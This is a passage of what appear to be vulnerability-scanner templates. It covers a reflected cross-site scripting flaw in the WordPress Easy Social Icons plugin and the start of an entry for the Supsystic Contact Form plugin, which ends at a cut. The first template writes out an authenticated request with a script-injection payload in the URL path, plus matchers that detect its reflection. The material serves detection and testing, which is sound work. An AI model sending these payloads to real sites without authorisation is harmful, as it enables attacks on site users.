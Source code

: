 # WordPress Easy Social Icons Plugin \< 3.0.9 - Cross-Site Scripting
## Description
- The Easy Social Icons plugin \<= 3.0.8 for WordPress echoes out the raw value of `$_SERVER['PHP_SELF']` in its main file. On certain configurations including Apache+modPHP this makes it possible to use it to perform a reflected cross-site scripting attack by injecting malicious code in the request path.
- severity - medium
- tags - wordpress,cve,cve2021,wp-plugin,authenticated,wpscan
## Requests
### Step - 1
```
POST /wp-login.php HTTP/1.1
Host: {{Hostname}}
Origin: {{RootURL}}
Content-Type: application/x-www-form-urlencoded
Cookie: wordpress_test_cookie=WP%20Cookie%20check

log={{username}}&pwd={{password}}&wp-submit=Log+In&testcookie=1

```
### Step - 2
```
GET /wp-admin/admin.php/</script><script>alert(document.domain)</script>/?page=cnss_social_icon_page HTTP/1.1
Host: {{Hostname}}

```
### Matchers

**Type - word**
- part - body
- words
    1. \</script>\<script>alert(document.domain)\</script>

**Type - status**
- status
    1. 200

**Type - word**
- part - header
- words
    1. text/html

---
# WordPress Supsystic Contact Form \<1.7.15 - Cross-Site Scripting
## Description
- WordPress Supsystic Contact Form plugin before 1.7.15 contains a cross-site scripting vulnerability. It does not sanitize the tab parameter of its options page before outputting it in an attribute.
- severity - medium
- tags - wordpress,cve,cve2021,wp-plugin,wpscan,packetstorm
## Requests
- Method - GET
### URL
